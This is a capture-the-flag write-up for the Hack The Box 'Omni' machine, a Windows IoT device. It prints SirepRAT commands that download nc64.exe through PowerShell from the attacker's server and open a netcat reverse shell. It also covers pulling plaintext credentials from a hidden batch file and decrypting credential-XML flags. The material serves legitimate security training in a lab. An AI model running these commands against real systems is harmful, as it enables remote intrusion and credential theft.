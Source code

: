 ## HTB Omni Writeup

This was a pretty interesting box and had a new OS that I’ve never messed with.

As always we start with an Nmap scan and adding the box to our hosts file.
![portscan](Pictures/omniScan.png)

So we see that it looks like a Windows server but we never get a proper OS fingerprint for it. After some Googling, it turns out to be a Windows IoT device which is why you see the **upnp** service. **ARCserve** also might give you a hint as it looks to be an IoT related storage solution.<br><br>

If you try to browse to the **8080** port, it’ll respond back with a login prompt but it’ll also mention that it’s a Windows Device Portal. If you look around for exploits regarding this, you’ll find a Python script called **SirepRAT**. This allows us to perform RCE but not interactively. We can run any command we want but it never gives us an interactive shell.<br><br>


However, after messing around with it for a bit, you’ll see that Powershell is installed and able to be called from this script. That means we’re able to upload and execute a payload or a tool. Something like **NetCat** perhaps? <br><br>


It’s important to mention that the proper version of **nc.exe** is needed for this to work. I used **nc64.exe** acquired from here: [https://github.com/int0x33/nc.exe](https://github.com/int0x33/nc.exe)  <br><br>


After we have that executable, we can start a Python HTTP Server to serve the payload.

```
krkn@htb:~$ sudo python -m SimpleHTTPServer 80
```

Then we can utilize the **SirepRAT.py** script to RCE and download that exe.

```
krkn@htb:~/SirepRAT$ python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c powershell.exe Invoke-WebRequest http://10.10.14.234/nc64.exe -outfile C:\\Windows\\Temp\\nc64.exe" --v
```

This command will tell the remote server to run **cmd.exe** to then call Powershell to grab the payload we’re serving in our Python HTTP server and save it in the **Temp** directory.<br><br>


You’ll see a log in your Python terminal to confirm it was downloaded.<br><br>


Then we can start a netcat listener.

```
krkn@htb:~$ nc -lvp 4444
```

Finally we can use the **SirepRAT.py** script again to complete the netcat connection and give us our reverse shell.

```
krkn@htb:~/SirepRAT$ python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c C:\\Windows\\Temp\\nc64.exe 10.10.14.234 4444 -e cmd.exe" --v
```

At that point, you’ll get that lovely Windows command prompt.  <br><br>


From here you can look around all you want. However, an important file to note is located in **C:\Program Files\WindowsPowerShell\Modules\PackageManagement**. This file is hidden so use **dir /ah** to see it. You’ll see an **r.bat** file and in here you’ll find the passwords for user administrator and user app.

![shell](Pictures/omniShell.png)  <br><br>


Remember that login prompt from port 8080? Yeah you can use those creds there. It’ll take you to this.

![login](Pictures/omniLogin.png)  <br><br>


From here, you’ll see that under **Processes** menu, you have the ability to execute commands. You can use that same **nc64.exe** we dropped earlier to get higher privileges under these user contexts.

But unfortunately, we can’t get user or root because the flags are in some strange XML format.

![xml](Pictures/omniXML.png)  <br><br>


After some more Googling, we can decrypt these using Powershell.<br><br>


After opening a powershell prompt, we can use the following command on both **root.txt** and **user.txt** under their prospective user level.

```
$credroot = Import-CliXml -Path C:\\Data\\Users\\administrator\\root.txt


$credroot.GetNetworkCredential().Password
```

This will decrypt the password for us and give us the flags we need.

![finalFlag](Pictures/omniFlag.png)
